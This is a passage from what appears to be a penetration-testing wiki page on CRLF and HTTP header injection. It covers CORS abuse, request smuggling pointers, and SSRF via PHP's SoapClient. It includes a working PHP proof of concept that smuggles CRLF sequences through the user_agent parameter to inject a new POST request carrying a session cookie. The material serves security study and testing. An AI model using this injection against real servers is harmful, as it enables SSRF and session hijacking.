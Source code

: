 Check more examples in:

[[https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md]]

### HTTP Header Injection

HTTP Header Injection, often exploited through CRLF (Carriage Return and Line Feed) injection, allows attackers to insert HTTP headers. This can undermine security mechanisms such as XSS (Cross-Site Scripting) filters or the SOP (Same-Origin Policy), potentially leading to unauthorized access to sensitive data, such as CSRF tokens, or the manipulation of user sessions through cookie planting.

#### Exploiting CORS via HTTP Header Injection

An attacker can inject HTTP headers to enable CORS (Cross-Origin Resource Sharing), bypassing the restrictions imposed by SOP. This breach allows scripts from malicious origins to interact with resources from a different origin, potentially accessing protected data.

#### SSRF and HTTP Request Injection via CRLF

CRLF injection can be utilized to craft and inject an entirely new HTTP request. A notable example of this is the vulnerability in PHP's `SoapClient` class, specifically within the `user_agent` parameter. By manipulating this parameter, an attacker can insert additional headers and body content, or even inject a new HTTP request entirely. Below is a PHP example demonstrating this exploitation:

```php
$target = 'http://127.0.0.1:9090/test';
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

# Put a netcat listener on port 9090
$client->__soapCall("test", []);
```

### Header Injection to Request Smuggling

For more info about this technique and potential problems [**check the original source**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning).
